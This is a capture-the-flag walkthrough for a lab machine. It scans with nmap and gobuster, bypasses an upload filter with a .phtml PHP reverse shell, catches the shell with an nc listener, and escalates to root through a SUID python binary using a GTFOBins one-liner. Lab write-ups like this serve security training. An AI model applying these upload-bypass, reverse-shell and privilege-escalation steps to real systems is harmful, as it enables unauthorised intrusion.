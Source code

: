 
#my ip : X.X.X.X
machine : 10.10.236.241

SCANNING
========
intial scan :
└─$ nmap -sV -v -Pn 10.10.236.241  -oN nmap/intial

22/tcp   open     ssh                                                                                                         
80/tcp   open     http       Apache httpd 2.4.29 ((Ubuntu)) 

#it seems we only have the webpage to look into but let's run full scan in the background just in case it is helpless

└─$ nmap -sV -v -Pn -p- -sC 10.10.236.241  -oN nmap/all


ENUMRATION
===========

└─$ gobuster dir -u "http://10.10.236.241/" -w=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  | tee gobuster.txt

```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.236.241/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.236.241/panel/]  

```

#found upload page at /panel so let's try upload a shell !

#pentester monkey php reverse shell is a great one :

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

#let's upload it and check if there is filteration techniques on uploading files 
# it doesn't accecpt php files :)
# let's check /uploads maybe it is uploaded and checked at their side !
#it is not :(
#let's try some modification on extenstion

phtml, .php, .php3, .php4, .php5, and .inc

EXPLOITAION
===========
#trying phtml and changing ip in the code 
# it is uploaded ! , and you can find it in the uploads section !
# set a listener 
$nc -lvp 1234 #my port
and execute it at uploads page 
=============================
   NOW WE HAVE A SHELL !
=============================
as www-data 
#to get stable shell 
$ python3 -c "import pty ; pty.spawn('/bin/bash')"

get user flag :
$find / -name user.txt

now we need privilege escalation :
----------------------------------

sudo -l  #need our passs which we don't know :(
-rw-r--r-- 1 root root 1603 Aug  4  2020 /etc/passwd
-rw-r----- 1 root shadow 1157 Aug  4  2020 /etc/shadow

suid
======
SUID, the special permission for the user access level has a single function: 
A file with SUID always executes as the user who owns the file, regardless of the user passing the command. 

check for suid premissions :
-----------------------------
$find / -type f -user root -perm -4000 -exec ls -l {} + 2>/dev/null

weird file
------------
/usr/bin/python

visiting https://gtfobins.github.io/gtfobins/python/#suid


/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'



now we are root !
# find / -name root.txt

and get the final flag  :) 

